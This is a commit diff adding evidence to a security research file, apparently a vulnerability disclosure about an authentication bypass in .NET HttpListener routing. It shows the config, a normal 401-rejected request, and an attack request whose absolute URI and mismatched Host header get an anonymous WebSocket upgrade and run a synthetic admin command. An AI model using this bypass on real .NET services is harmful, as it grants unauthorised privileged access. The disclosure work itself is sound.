

Before and after one commit to SamCloudJourney/basic-website, a Markdown page: research/dotnet-httplistener-framework-routing/EVIDENCE.md, the part around one of its changes. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Add combined protected WebSocket privileged-operation terminal

````diff
--- a/research/dotnet-httplistener-framework-routing/EVIDENCE.md
+++ b/research/dotnet-httplistener-framework-routing/EVIDENCE.md
@@ -318,3 +318,85 @@ DOCS_MODEL_WINDOWS_NEGATIVE_CONTROL=PASS
 ```
 
 This confirms the bug is present not only in supported .NET 8/9/10 but also in the current supported/go-live .NET 11 RC1 line.
+
+
+## Combined high-impact terminal: exact admin prefix + WebSocket + privileged operation
+
+Clean run:
+
+https://github.com/SamCloudJourney/basic-website/actions/runs/35531404399
+
+A separate researcher-controlled proof combines all demonstrated boundaries into a single chain.
+
+Framework configuration:
+
+```text
+PUBLIC listener:
+  http://public.test:<port>/
+
+ADMIN listener:
+  http://admin.test:<port>/admin/ws/
+
+ADMIN AuthenticationSchemeSelectorDelegate:
+  public.test -> Anonymous
+  admin.test  -> Basic
+```
+
+Ordinary unauthenticated protected admin WebSocket request:
+
+```http
+GET /admin/ws/control HTTP/1.1
+Host: admin.test:<port>
+Upgrade: websocket
+Connection: Upgrade
+...
+```
+
+Result:
+
+```text
+Selected=Basic
+HTTP/1.1 401 Unauthorized
+WWW-Authenticate: Basic ...
+adminContext=False
+wsUpgrade=False
+commandExecuted=False
+sideEffectCreated=False
+```
+
+Attack:
+
+```http
+GET http://admin.test:<port>/admin/ws/control HTTP/1.1
+Host: public.test:<port>
+Upgrade: websocket
+Connection: Upgrade
+...
+```
+
+Managed Linux/macOS result:
+
+```text
+HttpListener exact prefix routing:
+  publicContext=False
+  adminContext=True
+
+selector:
+  UserHostName=public.test:<port>
+  Url.Host=admin.test
+  Selected=Anonymous
+
+wire:
+  HTTP/1.1 101 Switching Protocols
+  Basic challenge=False
+
+client sends masked WebSocket command:
+  EXECUTE_SYNTHETIC_ADMIN_CHANGE
+
+ADMIN listener receives command
+protected operation executes
+researcher-controlled temp-file side effect is created
+
+ULTIMATE_FRAMEWORK_ROUTING_AUTH_WEBSOCKET_COMMAND_BYPASS=CONFIRMED
+```
+
````
Also changed, not shown: other parts of research/dotnet-httplistener-framework-routing/EVIDENCE.md (+32 -0 lines).
